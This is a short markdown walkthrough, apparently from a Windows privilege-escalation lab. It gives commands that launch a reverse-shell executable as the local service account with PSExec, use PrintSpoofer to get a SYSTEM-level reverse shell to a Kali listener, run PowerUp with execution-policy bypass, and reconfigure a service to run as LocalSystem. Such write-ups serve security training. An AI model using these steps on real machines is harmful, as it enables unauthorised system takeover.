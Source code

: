 ## Token Impersonation - PrintSpoofer 

1. Start a listener on Kali. Simulate getting a service account shell by logging into RDP as the admin user, starting an elevated command prompt (right-click -> run as administrator) and using PSExec64.exe to trigger the reverse.exe executable you created with the permissions of the "local service" account:

```
C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe
```

2. Start another listener on Kali.

3. Now, in the "local service" reverse shell you triggered, run the PrintSpoofer exploit to trigger a second reverse shell running with SYSTEM privileges (update the IP address with your Kali IP accordingly):

```
C:\PrivEsc\PrintSpoofer.exe -c "C:\PrivEsc\reverse.exe" -i
```

## Privilege Escalation Scripts 

Several tools have been written which help find potential privilege escalations on Windows. Four of these tools have been included on the Windows VM in the C:\PrivEsc directory:

- winPEASany.exe

- Seatbelt.exe

- PowerUp.ps1

- SharpUp.exe

```
powershell.exe -nop -exec bypass.

Import-Module PowerUp.ps1

Invoke-AllChecks | Out-File -Encoding ASCII checks.txt
 
powershell.exe -exec bypass -Command “& {Import-Module .\PowerUp.ps1; Invoke-AllChecks}”

```

## Change Configr

```PowerShell
sc config WCAssistantService obj= “.\LocalSystem” password= “”
sc config WCAssistantService start= “demand”


Set-Service -Name "WCAssistantService" -StartupType Manual
```

